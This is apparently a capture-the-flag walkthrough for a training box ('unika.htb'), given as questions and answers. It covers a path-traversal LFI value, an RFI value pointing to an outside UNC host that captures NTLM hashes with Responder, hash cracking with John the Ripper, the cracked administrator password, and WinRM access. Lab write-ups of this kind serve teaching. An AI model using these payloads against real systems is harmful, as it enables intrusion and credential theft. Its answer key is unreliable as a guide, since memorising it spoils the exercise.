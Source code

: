 ![](./Images/banner.png)

![](./Images/nmap.png)

![](./Images/dns.png)

When visiting the web service using the IP address, what is the domain that we are being redirected to?

```
unika.htb
```


Which scripting language is being used on the server to generate webpages?

```
php
```


![](./Images/param.png)

What is the name of the URL parameter which is used to load different language versions of the webpage?

```
page
```

![](./Images/lfi.png)

Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```
../../../../../../../../windows/system32/drivers/etc/hosts
```

Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```
//10.10.14.6/somefile
```


What does NTLM stand for?

```
New Technology Lan Manager
```

![](./Images/rfi.png)

Which flag do we use in the Responder utility to specify the network interface?

```
-I
```

![](./Images/admin-hash.png)

There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

```
John The Ripper
```

![](./Images/john.png)

What is the password for the administrator user?

```
badminton
```


We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

```
5985
```

![](./Images/remote-connect.png)
